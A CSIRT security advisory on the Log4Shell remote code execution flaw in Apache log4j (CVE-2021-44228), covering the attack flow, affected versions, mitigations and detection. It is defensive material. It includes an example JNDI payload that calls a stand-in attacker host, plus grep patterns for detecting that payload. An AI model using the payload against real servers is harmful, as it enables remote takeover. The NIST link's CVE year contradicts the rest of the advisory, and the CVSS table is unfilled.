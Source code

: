 ## NVISO CSIRT ADVISORY
**2021-12-10**


## SUMMARY
In this advisory we provide an overview of the recently discovered vulnerability in Apache log4j and how attackers can abuse it. We will update this blog post as more information is released. 

A high severity vulnerability in Apache log4j was disclosed publicly on 9 December 2021. This vulnerability was initially discovered by Chen Zhaojun of the Alibaba Cloud Security Team.

Log4j is an open-source Java logging library that is widely used in many applications and is present as a dependency in many services. This includes enterprise applications and numerous cloud services. 
 
This vulnerability allows for unauthenticated remote code execution using the following flow:
1.	Attacker sends data to the server (via any protocol). 
2.	The server (with log4j enabled) logs the data in the request, containing the malicious payload: `${jndi:ldap//attackerowneddomain.com/a}`
3.	The log4j vulnerability is triggered by this payload and the server makes a request to the attackerowneddomain.com via JNDI (Java Naming and Directory Interface). This also works using RMI (see link to SANS ISC post below)
5.	The server owned by the attacker responds to the request with a path to a remote (malicious) Java class file. This file is then injected in in the server process
6.	This malicious Java class file upon execution can trigger arbitrary code execution

## WHY THIS MATTERS
Given how widespread this library is used and how easy the exploit is, the impact of this vulnerability can be seen as very severe. 

On 10 December 2021 a PoC (Proof of Concept) was released for this vulnerability (https://github.com/tangxiaofeng7/apache-log4j-poc). Currently extensive scanning is being performed and a number of active exploitation attempts have been observed as well. 

## AFFECTED PRODUCTS
All Apache log4j versions from 2.0 up to and including 2.14.1 

All frameworks that use these versions (e.g. Apache Structs2, Apache Solr, Apache Druid, Apache Flink, etc.)


## AVAILABLE WORKAROUNDS
It is important to note that as part of the exploitation of this vulnerability, the vulnerable server must make an outbound request to the attacker owned server. Limiting outbound internet connectivity from web servers would prevent the full exploit chain. 

Set to the JVM args log4j2.formatMsgNoLookups set to True in case not patched. (see: https://logging.apache.org/log4j/2.x/manual/configuration.html)

Sanitize log data before processing into Log4j

## AVAILABLE PATCHES
On December 10, 2021, version 2.15.0 was released. 
(https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2)

## DETECTIONS
- Review logs generated for Log4j processing and focus on JNDI and RMI entries
- Review outbound connections of system running Log4j
- YARA rule by Florian Roth: https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b

Search logs using following commands:

`sudo egrep -i -r '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+' /var/log`

`sudo find /var/log -name \*.gz -print0 | xargs -0 zgrep -E -i '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+'`

## CVSS SCORE AND CVE ID
|CVE ID	|Severity	|CVSSv3 Score|
|-------|-----------|------------|
|CVE-2021-44228	|Critical	|X	|X	|

Note: this vulnerability is also known as log4shell
NIST: http://nvd.nist.gov/vuln/detail/CVE-2020-44228
MITRE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228


## RECOMMENDED ACTIONS
Critical risk vulnerabilities should be fully patched as soon as possible.


## MORE INFORMATION
More information and detailed explanations on the working of this vulnerability can be found on the links below.
- Log4Shell: RCE 0-day exploit found in log4j, a popular Java logging package: https://www.lunasec.io/docs/blog/log4j-zero-day/
- SANS ISC - RCE in log4j, Log4Shell, or how things can get bad quickly: https://isc.sans.edu/forums/diary/RCE+in+log4j+Log4Shell+or+how+things+can+get+bad+quickly/28120/
- Greynoise is tracking the RCE attempts: https://www.greynoise.io/viz/query/?gnql=tags%3A%22Apache%20Log4j%20RCE%20Attempt%22
- CIRCL.LU TR-65 - Vulnerabilities and Exploitation of Log4j (Remote code injection in Log4j): https://www.circl.lu/pub/tr-65/
